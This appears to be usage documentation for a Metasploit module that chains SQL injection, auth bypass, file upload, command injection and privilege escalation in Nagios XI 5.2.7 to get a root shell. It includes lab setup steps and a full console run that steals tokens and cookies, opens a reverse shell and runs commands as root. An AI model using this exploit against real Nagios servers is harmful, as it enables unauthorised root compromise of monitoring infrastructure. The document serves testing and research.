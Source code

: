 ## Intro

Nagios XI is the enterprise version of Nagios, the monitoring software we love
and hate.

> This module exploits an SQL injection, auth bypass, file upload, command
injection, and privilege escalation in Nagios XI <= 5.2.7 to pop a root shell.

## Setup

**Download the virtual appliance:**

I used the 64-bit OVA [here]. Remove the "-64" in the link to download the
32-bit OVA.

[here]: https://assets.nagios.com/downloads/nagiosxi/5/ovf/nagiosxi-5.2.7-64.ova

**Import the OVA:**

Just import it into VMware or VirtualBox. It should create a VM for you.

**Configure the software:**

When you start the VM, you will see ```Access Nagios XI at http://[redacted]```
on the login screen. Connect to the URL using your web browser and follow the
steps on the screen to configure the app.

Configuration is actually not required to exploit the app, but you should do it
anyway.

## Usage

Just set ```RHOST``` and fire off the module! It's pretty much painless.
```set VERBOSE true``` if you want to see details.

```
msf > use exploit/linux/http/nagios_xi_chained_rce 
msf exploit(nagios_xi_chained_rce) > set rhost [redacted]
rhost => [redacted]
msf exploit(nagios_xi_chained_rce) > set verbose true
verbose => true
msf exploit(nagios_xi_chained_rce) > run

[*] Started reverse TCP handler on [redacted]:4444 
[*] Nagios XI version: 5.2.7
[*] Getting API token
[+] API token: 3o2erpm0
[*] Getting admin cookie
[+] Admin cookie: nagiosxi=jcilcfptj7ogpvovgs3i5gilh7;
[+] CSRF token: 477abd7db8d06ade9c7fcd9e405fd911
[*] Getting monitored host
[+] Monitored host: localhost
[*] Downloading component
[*] Uploading root shell
[*] Popping shell!
[*] Command shell session 1 opened ([redacted]:4444 -> [redacted]:60132) at 2016-07-01 00:12:20 -0500
[*] Cleaning up...
[*] rm -rf ../profile
[*] unzip -qd .. ../../../../tmp/component-profile.zip
[*] chown -R nagios:nagios ../profile
[*] rm -f ../../../../tmp/component-xAmhUGRn.zip

3904334783
TwMSxKhKEaxUjlTSNYyeICVUuPSNkwoI
cKKdfdZxRpDduZCezKXOficrVyNeVggH
mRVdstQmfdtnFiYMjLgyfvRWXyQZPyUF
dDlRoqhBvqvwrhKYWumimyKxVHSbrkoE
wjCWBTgbsQuPemhiByeMpMEhdPooHEvw
id
uid=0(root) gid=0(root) groups=0(root),1(bin),2(daemon),3(sys),4(adm),6(disk),10(wheel)
uname -a
Linux localhost.localdomain 2.6.32-573.22.1.el6.x86_64 #1 SMP Wed Mar 23 03:35:39 UTC 2016 x86_64 x86_64 x86_64 GNU/Linux
```
